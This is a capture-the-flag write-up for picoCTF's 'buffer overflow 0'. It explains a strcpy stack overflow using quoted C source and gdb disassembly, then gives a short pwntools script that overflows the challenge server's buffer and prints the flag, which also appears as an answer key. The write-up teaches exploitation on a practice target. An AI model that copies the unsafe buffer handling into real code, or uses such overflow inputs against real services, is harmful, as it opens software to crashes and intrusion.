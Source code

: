 # buffer overflow 0

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](./vuln). You can view source [here](./vuln.c). And connect with it using:
`nc saturn.picoctf.net 64712`

## Source

[vuln.c](./vuln.c) (C source)  
[vuln](./vuln) (32-bit ELF)

# Solution

Reading the code, we can see that the flag is printed from the `sigsegv_handler` function. This function is being set as the handler for the `SIGSEGV` signal, which is triggered when the program tries to access an invalid memory address. Let's look at the `vuln()` function:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

It takes a string as input, and copies it to a buffer of size 16. This is a classic [buffer overflow vulnerability](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). If we pass a string longer than 16 characters, we will overflow the buffer, and overwrite variables on the stack, more specifically, the return address of the function. Let's look at the `vuln()` call in `main()`:

```c
int main(int argc, char **argv){
  ...
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The program reads a string from the user, into a buffer of size 100, and passes it to `vuln()`. That should be more than enough for us to trigger a buffer overflow. Let's look at the relative position of `buf2` and the return address on the stack:

```bash
$ gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00001353 <+0>:     endbr32
   0x00001357 <+4>:     push   ebp
   0x00001358 <+5>:     mov    ebp,esp
   0x0000135a <+7>:     push   ebx
   0x0000135b <+8>:     sub    esp,0x14
   0x0000135e <+11>:    call   0x149b <__x86.get_pc_thunk.ax>
   0x00001363 <+16>:    add    eax,0x2c49
   0x00001368 <+21>:    sub    esp,0x8
   0x0000136b <+24>:    push   DWORD PTR [ebp+0x8]
   0x0000136e <+27>:    lea    edx,[ebp-0x18]
   0x00001371 <+30>:    push   edx
   0x00001372 <+31>:    mov    ebx,eax
   0x00001374 <+33>:    call   0x1170 <strcpy@plt>
   0x00001379 <+38>:    add    esp,0x10
   0x0000137c <+41>:    nop
   0x0000137d <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00001380 <+45>:    leave
   0x00001381 <+46>:    ret
End of assembler dump.
```

On lines `<+27>`-`<+30>`, we can see the function loads the memory address of `[ebp-0x18]` to the stack, as an argument to `strcpy`. That means the stack looks like that:

```
[ebp-0x18]  buf2 (size 16)
[ebp-0x08]  ? (DWORD)
[ebp-0x04]  ? (DWORD)
[ebp+0x00]  old ebp (line <+4>) (DWORD)
[ebp+0x04]  return address (DWORD)
```

So, in order to overwrite the return address, we need to pass a string at least 32 characters long (16 + 4 + 4 + 4 + 4), and the last 4 characters should be an invalid memory address, so that the program will try to access it, and trigger a `SIGSEGV` signal. Entering a string filled with `A`'s should do the trick:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 64712)

conn.sendlineafter(b'Input: ', b'A' * 32)
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

**The Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`
